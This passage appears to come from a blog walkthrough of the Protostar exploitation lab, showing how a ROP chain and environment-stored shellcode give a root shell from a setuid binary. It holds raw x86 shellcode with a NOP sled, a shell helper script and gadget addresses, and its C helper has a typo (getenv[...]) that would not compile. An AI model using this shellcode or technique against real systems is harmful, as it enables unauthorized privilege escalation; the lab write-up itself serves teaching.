 There's only one more thing we need: Shellcode! Something eax can point to that actually does something. In this case we will launch a shell because these are all setuid binaries. Originally when I had completed this I ran into problems: my shell at /bin/sh or /bin/dash would immediately exit. I found a little trick on the <a href="https://isisblogs.poly.edu/2011/10/21/geras-insecure-programming-warming-up-stack-1-rop-nxaslr-bypass/" target="_blank">isispoly blog</a> that helped me work around my issues. Instead of launching /bin/sh I modified my shellcode so that it launched /tmp/sh, so I could define the executable. The code from the isispoly blog is below: 
```bash
#!/bin/bash
term="/dev/$(ps -p$$ --no-heading | awk '{print $2'})"
exec sh < $term
```

What this does is gets the current tty and launches a shell with it. Good. So now we can take our shellcode and put it somewhere. I needed to make sure that /tmp/sh was chmodded a+x first, though, so it would actually execute when I finished. 

The next issue is where to put our shellcode. We could store it in the buffer of the program but that is usually unreliable. I like to use environmental variables to hold my shellcode. Finding out the address of an environmental variable is easy with the following C program:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv){
    if (argc > 1)
        printf("%s: %x\n", argv[1], getenv[argv[1]]);
    return 0;
}
```

This will take the name an environmental variable as an argument and print out its address in memory. I usually compile this and put it in /bin so I can use it later as well. Nifty. So now we put our shellcode (and lots of NOPs) in an environmental variable and find its address. 

```
/opt/protostar/bin $ export WIN=python -c 'print "\x90"*200 + "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'
/opt/protostar/bin $ getenv WIN
WIN: 0xbfffffa7
```

Nice. So now I have everything I need to make this ROP chain:
<ul>
<li>4 gadgets:</li>
<ol>
    <li>0x8048452L: pop ebx ; pop ebp ;;</li>
    <li>0x804847fL: call eax ; leave ;;</li>
    <li>0x804844bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;</li>
    <li>0x8048577L: pop edi ; pop ebp ;;</li>
</ol>
<li>Control of EIP</li>
<li>An address to feed into ebx to make sure our xchg gadget doesn't crash @ 0x62a4f184</li>
<li>Shellcode @ 0xbfffffa7</li>
</ul>
